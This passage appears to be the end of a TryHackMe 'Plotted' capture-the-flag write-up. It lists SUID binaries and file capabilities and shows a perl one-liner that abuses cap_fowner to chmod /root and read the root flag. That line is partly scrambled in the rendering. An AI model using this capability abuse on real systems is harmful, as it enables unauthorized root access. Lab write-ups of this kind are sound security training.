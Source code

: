 ```bash
/snap/core18/2128/usr/bin/sudo
/snap/core18/2128/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2128/usr/lib/openssh/ssh-keysign
/snap/snapd/13640/usr/lib/snapd/snap-confine
/snap/snapd/14549/usr/lib/snapd/snap-confine
/root
```


```bash
plot_admin@plotted:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/perl = cap_fowner+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/perl5.30.0 = cap_fowner+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/snap/core20/1328/usr/bin/ping = cap_net_raw+ep
/snap/core20/1169/usr/bin/ping = cap_net_raw+ep
```



```bash
plot_admin@plotted:/tmp$ 
txt";' && cat /root/root.txtl -e 'chmod 07777, "/root"; chmod 0777, "/root/root. 
Congratulations on completing this room!

********************************

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms
-sa.infinity8888
plot_admin@plotted:/tmp$ 
```


<p>2.3. What is root.txt<br>
<code>********************************</code></p>


<br>
<br>



<br>
<h2 align="center">Completed</h2>
<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/3e6d886f-bafb-4f01-83a4-b42fd887d7ac"><br>
                  <img width="800px" src="https://github.com/user-attachments/assets/4097a7f2-c965-4192-94ac-7ecfbf6764cd"></p>

<h2 align="center">My TryHackMe Journey</h2>

<div align="center">

